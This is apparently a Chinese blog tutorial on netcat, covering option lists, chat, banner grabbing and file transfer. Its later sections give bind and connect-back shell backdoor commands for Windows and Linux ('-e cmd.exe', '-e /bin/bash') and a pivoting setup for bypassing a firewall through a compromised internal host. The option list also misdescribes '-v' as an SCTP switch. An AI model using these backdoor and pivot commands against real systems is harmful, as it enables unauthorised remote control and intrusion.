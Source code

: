 ```yaml
---
title: netcat使用
date: 2020/10/20 8:46:40
comments: ture
categories:
- 网络安全
tags:
- 黑客技术
---
```


## netcat命令选项

#### 本文参考文章链接

[本文参考文章链接1](https://www.fujieace.com/linux/nc-2.html)

[本文参考文章链接2](https://jiajunhuang.com/articles/2020_09_19-linux_cmd_netcat.md.html)

[本文参考文章链接3](https://www.cnblogs.com/lpfuture/p/5719066.html)

<!--more-->

### 常用命令选项

```
## 网络模式和代理相关
-l 监听，作服务器。不填时作客户端。
-u UDP模式。不填时默认TCP模式。
-X 和 -x 是代理相关的选项

## 其余常用选项
-v verbose模式，打印更多日志
-z 连接以后就断开，用于测试网络连接是否连通 //探测端口的连通性
-w 超时时间，单位是秒
-s 指定source addr
-p 指定source port
-n 只识别IP地址，不查询DNS
-k 处理完一个请求之后，继续监听下一个
-d 脱离命令行窗口，在后台运行，常用于后门建立的过程
-e 执行某个程序，常用于后门建立的过程
-L 设置netcat处于监听状态等待链接，当客户端断开，服务器依旧回到等待状态
```

### 基本全部命令选项

```
用法：

ncat [选项] [主机名] [端口]

 

花费时间的选项以秒为单位。 附加“ ms”毫秒，“ s”表示秒，“ m”表示分钟，或“ h”表示小时（例如500ms）。

 

-4    仅使用IPv4

-6    仅使用IPv6

 

-U, --unixsock 仅使用Unix域套接字

	--vsock 仅使用vsock套接字

 

-C, --crlf 将CRLF用于EOL序列

-c, --sh-exec <command> 通过/bin/sh执行给定命令

-e, --exec <command> 执行给定命令

	--lua-exec <filename> 执行给定的Lua脚本

 

-g hop1[,hop2,...] 松散的源路由跳跃点（最大8个）

-G <n> 松散的源路由跳跃指针（4、8、12，...）

-m, --max-conns <n> 最大<n>同时连接

-h, --help 显示此帮助屏幕

-d, --delay <time> 在读/写之间等待时间

-o, --output <filename> 将会话数据转储到文件中

-x, --hex-dump <filename> 将会话数据以十六进制形式转储到文件中

-i, --idle-timeout <time> 空闲读/写超时时间

-p, --source-port port 指定要使用的源端口

-s, --source addr 指定要使用的源地址（不影响-l）

-l, --listen 绑定并监听传入的连接

-k, --keep-open 在侦听模式下接受多个连接

-n, --nodns 不通过DNS解析主机名

-t, --telnet 回答Telnet协商

-u, --udp 使用UDP代替默认TCP

	--sctp 使用SCTP代替默认TCP

 

-v, --verbose 使用SCTP代替默认TCP

-w, --wait <time> 连接超时时间

 

-z   零I/O模式，仅报告连接状态

    
```



## 1. 模拟聊天

- 服务器

```
nc -l -p [端口号]
```

- 客户端

```
nc [服务器ip] [服务器端口]
```



## 2.Banner抓取方法

- Banner是一个文本，Banner是一个你连接的服务器发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。一旦你发现开放的端口，你可以容易的使用netcat 连接服务抓取他们的banner。

```
echo "" | nc -v -n w1 [target_ip] [开始端口-结束端口]
```



## 3.文件传输

### 从客户端传输文件到服务器

- 服务器

```
nc -l -p [端口号] > out_filename
```

- 客户端

```
nc [目标IP] [目标端口] < in_flimename
```

### 从服务器传输文件到客户端

- 服务器

```
nc -l -p [端口号] < in_filename
```

- 客户端

```
nc [目标IP] [目标端口] > out_flimename
```



## 4.目录传输（与文件传输类似）

- 服务器

```
tar -cvf - dir_name | nc -l [port_id]
```

- 客户端

```
nc -n [target_ip] [target_port] | tar -xvf - 
```



##  5. windows建立后门的方法

### 服务器——监听型后门

```
nc -l -p [port_id] -e cmd.exe
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e cmd.exe
```



## 6、Linux下建立后门

### 服务器——监听型后门

```
nc -l -p [port_id] -e /bin/bash
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e /bin/bash
```



## 7、连接转发

- 可以解决的问题

1. 对于无法访问内网特定机器的问题，我们可以先抓取内网一台机器，然后利用这台弱鸡进行端口转发，接受外网的数据，将数据转发到内网目标机器的特定端口。

```
'''
假设机器A和机器B是内网机器，机器B是我们的目标机器，机器C是外网机器，机器C和机器A是出于同一网段的，可以互相访问，机器C不可以访问机器B
'''
# bat文件中的内容： nc [ip_B] [port_B]
A: nc -l -p [port_A] -e XX.bat
B: nc -l -p [port_B] 
C: nc [ip_A] [prt_A]
```

2. 对于防火墙禁止访问某些端口的问题，比如3389端口，我们可以将利用机器的3000端口做端口转发，从外界接受数据，转发给本机的3389端口，从而绕过防火墙。

```
## 原理同上
```



## 8、反弹shell

[![BFDrmd.md.png](https://s1.ax1x.com/2020/10/22/BFDrmd.md.png)](https://imgchr.com/i/BFDrmd)



